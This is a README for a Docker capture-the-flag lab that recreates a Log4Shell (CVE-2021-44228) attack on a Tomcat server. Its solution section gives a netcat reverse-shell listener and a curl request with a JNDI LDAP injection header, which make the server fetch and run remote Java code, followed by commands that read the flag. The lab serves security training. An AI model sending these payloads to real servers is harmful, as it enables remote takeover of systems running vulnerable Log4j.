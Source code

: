This repo is to be used for educational purposes only, and is intended to be run against your own machine. We do not condone the use of these skills/techniques outside of this lab environment. DO NOT change any files or commands; run exactly as described in “Starting the Lab Environment".


**Scenario**

A local kitten daycare has recently suffered a zero-day exploit resulting in full system compromise via RCE (remote code execution). A digital forensics team investigating the incident has created a LAB environment meant to serve as a proof-of-concept for what happened. Can you replicate what happened that fateful day for the local kitten daycare?



**Pre-Requisites**
1.    Docker Desktop – https://www.docker.com/products/docker-desktop/ 
2.    Git – https://git-scm.com/book/en/v2/Getting-Started-Installing-Git 



**Starting the Lab Environment**

1.    Open Docker Desktop 
2.    Run '**git clone https://github.com/sgwgsw/Rowdyhacks2022-CTF.git**' in a terminal window.
3.    Change to the Rowdyhacks2022-CTF folder and run '**docker compose up -d**' with admin/sudo privileges. This is done on your local machine, not Docker Desktop.
4.    Once the command has finished running, select 'Containers / Apps' in Docker Desktop to confirm all containers in the stack are running


**Hints**

1.    To start a Docker CLI session, hover over the container in 'Containers / Apps' on Docker Desktop and click the 'CLI' button. **DO NOT open CLI sessions by other means.**
2.    You will not need a CLI session on web_server (remember - this would be the victim's web server which we are trying to hack. An attacker wouldn't have access to this system).  
3.    Use '**ping -c 1 <container_hostname>**' to get the IP of any container. Hostnames are: web_server, http_server, ldap_server, c2_instance, curl_instance
4.    The web_server container is running a Tomcat web server instance 8080. Log4j 2.14.0 is in-use.
5.    The curl_instance container will be useful for sending the exploit.
6.    The c2_instance container has netcact. 
7.    The ldap_server container is hosting the reference object, 'Exploit'.
8.    The http_server container is hosting compiled java code. This code wants to communicate on port 9999. 



**WHEN YOU ARE FINISHED**
1.    Close any CLI/terminal sessions
2.    Click the stop button in 'Containers / Apps' on Docker Desktop
3.    Run 'docker system prune -a' on the host machine, and press 'y' when prompted
4.    Delete the cloned Log4j_LAB-Docker repo/folder on your machine


**Solution** - 

There are several approaches to solving this CTF. Here is one successful approach to our CVE-2021-44228 challenge. 

1.    Open a CLI session on the curl_instance container. Do this through Docker Desktop by selecting the ‘CLI’ button next to the curl_instance container.

2.    Open a CLI session on the c2_instance container.

3.    Run ‘ping -c 1 web_server’ in curl_instance or c2_instance to get the IP address of the vulnerable web server. 

4.    In c2_instance, run ‘nc -nlvp 9999’. The instructions stated that the compiled java code would want to talk on port 9999. We need to open a listener on that port to receive the java code, which is a reverse shell. 

5.    In curl_instance, we will send the exploit payload. Run curl -A '\{jndi:ldap://ldap_server:1389/Exploit}' http://<web_server_IP>:8080, where <web_server_IP> is the IP address recovered from step 3 above. [1] When this payload is received by web_server, instead of Log4J logging the header it will make a connection to ldap_server on port 8080, asking for the Exploit reference object. [2] ldap_sever then queries the reference object which links out to http_server hosting the java code. [3] The reverse shell is sent to web_server and opened on c2_instance. 

6.    Run ‘find / -name flag.txt’ in c2_instance, which is now a reverse shell executing these commands on web_server. 

7.    Run ‘cat /usr/local/tomcat/flag.txt’ to print the flag. This location will be output from step 6 above. 
